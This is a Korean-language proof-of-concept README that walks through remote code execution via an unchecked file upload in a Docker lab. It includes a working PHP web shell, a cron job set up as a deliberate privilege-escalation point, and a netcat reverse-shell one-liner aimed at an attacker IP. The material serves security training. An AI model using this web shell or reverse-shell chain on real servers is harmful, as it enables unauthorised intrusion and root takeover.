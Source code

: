 # 1. RCE via File Upload 취약점 이란?

파일 업로드 취약점은 서버가 업로드된 파일에 대해 적절한 검증을 수행하지 않아, 공격자가 임의의 코드를 포함한 파일을 업로드하고 실행할 수 있게 되는 보안 이슈입니다.

- 시스템 명령어 실행 (Remote Command Execution, RCE)
- 서버 권한 상승 등 추가 공격
- Reverse Shell

# 2. PoC 목적 및 개요

본 PoC는 파일 업로드 취약점을 이용해 RCE를 재현합니다.

공격자는 악성 PHP 웹쉘을 업로드하고 이를 실행함으로써 서버 내에서 임의의 시스템 명령을 원격으로 실행할 수 있음을 실습 환경에서 확인할 수 있습니다.

# 3. 환경 구성

- 언어 및 환경 : PHP 8.2 (내장 웹서버 사용)
- 구성 파일
    - `upload.php`: 파일 업로드
    - `Dockerfile`: PHP + cron + supervisor 설치 도커 이미지 빌드 설정
- Docker 환경
    - 컨테이너 실행 시 PHP 웹서버가 `0.0.0.0:8080`에서 실행
    - 업로드된 파일은 `uploads/` 디렉토리에 원본 파일명으로 저장

# 4. 실행 방법

1. Docker 이미지 가져오기
    
    ```bash
    $ docker pull dukbong/poc:2025-06-fileupload
    
    ```
    
2. Docker 컨테이너 실행
    
    ```bash
    docker run --name fileupload -p 8080:8080 dukbong/poc:2025-06-fileupload
    
    ```
    
3. Docker 컨테이너 내부 설정
    - root 권한으로 접속
    
    ```bash
    docker exec -it --user root fileupload /bin/bash
    ```
    
    - root 권한으로 cron 작성
    
    ```bash
    vi /etc/cron.d/fileupload
    
    # 해당 스케줄러 실행 시 root 권한으로 실행됩니다. ( 권한 상승 지점 )
    * * * * * root /tmp/fileupload
    ```
    
    - 권한 설정
    
    ```bash
    chmod 744 /etc/cron.d/fileupload
    ```
    
4. 웹 애플리케이션 접속
    
    ```bash
    http://localhost:8080
    ```
    
5. 주요 엔드포인트
    
    
    | 경로 | 설명 | 메소드 | 비고 |
    | --- | --- | --- | --- |
    | / | 파일 업로드 페이지 | GET, POST | 취약점 시연 대상 |
    | /uploads/{file_name} | 파일 경로 | GET |  |
6. 예시 Web Shell 코드
    
    ```php
    <?php
    if (isset($_POST['cmd'])) {
        echo "<pre>";
        system($_POST['cmd']);
        echo "</pre>";
    }
    ?>
    
    <form method="POST">
        <input type="text" name="cmd" placeholder="명령어 입력" style="width: 300px;">
        <button type="submit">실행</button>
    </form>
    ```
    

# 5. 재현 절차

1. 웹 페이지 접속 후 임의의 PHP web shell 파일 (예: `shell.php`) 업로드 합니다.
2. 업로드 성공 후 `/uploads/shell.php` 로 접근합니다.
3. 입력창에 `id`명령어 작성 후 결과가 출력 되는 걸 확인합니다.
    1. `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
4. `/etc/cron.d` 폴더 안에 있는 `fileupload` 파일을 확인합니다.
    1. `cat /etc/cron.d/fileupload`
5. 공격자 PC에서 `ifconfig`를 통해 IP를 확인합니다.
6. 공격자 PC에서 `nc -nlvp 9999`로 9999 포트를 리스닝 합니다.
7. `Reverse Shell Cheat Sheet`를 활용하여 스크립트를 만듭니다.
    1. 참고 사이트 : https://www.revshells.com/
    2. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 공격자IP 9999 >/tmp/f`
8. 아래 악성 스크립를 통해 스케줄러에서 실행되는 파일을 수정합니다.
`printf 'cheat sheet \n' > /tmp/fileupload && chmod +x /tmp/fileupload` 
    1. 마지막 빈줄 삽입이 없는 경우 명령어가 무시되는 경우가 발생합니다.
9. 1분 후 공격자 PC에서 `id` 명령어를 통해 root 계정을 사용하는 것을 확인합니다.
    

# 6. 참고 사항 (VirtualBox 환경)

- Kali Linux가 VirtualBox에 설치되어 있는 경우
    - 설정 → 네트워크 → 어댑터1 → '브리지 어댑터' 설정
    - 인터페이스 이름은 실제 사용하는 네트워크(Wi-Fi/LAN 등)로 지정
    - 설정 후 재시작 필요합니다.
- 동일 물리 네트워크 상의 다른 장비 사용 시 별도 설정 불필요합니다.
